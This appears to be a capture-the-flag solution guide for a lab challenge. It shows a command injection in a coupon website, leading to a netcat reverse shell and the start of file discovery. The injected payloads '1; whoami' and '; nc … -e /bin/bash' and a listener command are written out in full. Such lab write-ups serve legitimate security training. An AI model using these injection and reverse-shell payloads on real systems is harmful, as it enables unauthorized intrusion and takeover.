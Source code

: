 # Discounted Route to Rescue

*Solution Guide*

## Overview

Exploit a command injection vulnerability in the website `coupons.merch.codes` to gain access to a pod hosting the website. Read the first vital document. Using permissions and escaping the pod, gain access to the master node. Retrieve the second document critical in recovering the infiltrated friendly Aurellian ship.

## Question 1

*File in /var/www/html/ container directory*

The challenge guide tells us to investigate the website `coupons.merch.codes`. After investigation, we see it is vulnerable to command injection. 

1. To test if `coupons.merch.codes` is vulnerable to command injection, enter the following in the text field: 

```bash
1; whoami
```

The output should be a random "coupon" followed by the user `nobody` in a new line. 
Since the field is vulnerable to command injection, and we are told that we infiltrated the network, we can try to get a shell inside the system hosting `coupons.merch.codes`.

2. On the Kali VM, open a terminal and enter: 

```bash
nc -lvp 5555
```

3. On `coupons.merch.codes`, enter the following in the text field and click **Retrieve**. Make sure to change the IP address to match the one in your system.

```bash
; nc 10.5.5.105 5555 -e /bin/bash
```

4. After clicking **Retrieve**,  go back to your terminal. Notice you obtained a connection. 
5. Enter the following to make sure you are connected: 

```bash
whoami
```
You get the user of the system: `nobody`.

6. The first document we need is in the `/var/www/html/` directory. Enter the following to see what's in that directory: 

```bash
ls -la /var/www/html/
```
